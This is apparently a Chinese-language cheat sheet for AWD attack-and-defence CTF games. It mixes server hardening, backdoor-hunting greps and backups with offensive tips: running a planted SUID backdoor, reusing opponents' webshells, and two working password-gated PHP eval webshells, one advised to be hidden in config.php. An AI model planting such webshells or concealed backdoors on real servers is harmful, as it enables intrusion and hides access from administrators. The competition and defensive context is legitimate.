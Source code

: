 # AWD

## 加固信息

后台 /iadmin 修改逻辑结构 iadmin/login.php 修改验证为false
chmod -x a
chmod -R 644 www

检查webshell.php
检查连接 netstat -an | grep ESTABLISHED
实时查看日志　tail -f logs/access_log &
copy别人的马到tmp/muma
覆盖同名的 webshell.php
## suid后门
根目录下有.suid ，suid在运行时会有高级权限
./.suid -p

## mysql 备份 
mysqldump -uroot -phimaliya  --database choose test > tmp.sql
/bin/mysql -uroot -phimaliya  test tmp.sql

## 简单的查找后门

  find . -name '*.php' | xargs grep -n 'eval('
  find . -name '*.php' | xargs grep -n 'assert('
  find . -name '*.php' | xargs grep -n 'system(

## webshell 加密码
素质低的人则会放置一个md5马，比如
<?php
if(md5($_POST['pass'])=='d8d1a1efe0134e2530f503028a82
5253')
@ eval($_POST['cmd']);
?>


  如果素质低的人又很猥琐，像rootrain这种就是。那就是利用
  header，最后综合起来就是
  <?php
  echo 'hello';
  if(md5($_POST['pass'])=='d8d1a1efe0134e2530f503028a825253')
  if (@$_SERVER['HTTP_USER_AGENT'] == 'flag'){
  $test= 'flagxxxxxxxxxxxxxxxxxxxxxx';
  header( "flag:$test");
  }
  ?>
  放进config.php效果最好，因为一般很少人去看这个

脚本.zip
上传phpwebshell.py

## 最后 

修复后进行更新/重启。
分工策略。
复习：中间件加固。


# 常用命令
修改密码： passwd 用户名


# 网卡配置
ip a
cd /etc/sysconfig/network-scripts
ls 查看以太网的配置文件名是否和以太网卡名字相同
不同则修改为同名
vim ifcfg-以太网卡名
修改配置文件中的以太网卡名
service network restart 

启动apache /opt/lampp/lampp startapache


# TODO
xshell jump to current path on explorer
sqlmap test
sh 暴破登录,  hydra test
？查看 linux下user
awd.png
mysql 搜索flag
挂载到笔记本磁盘---help
靶机练习
https://blog.csdn.net/yetaodiao/article/details/80900133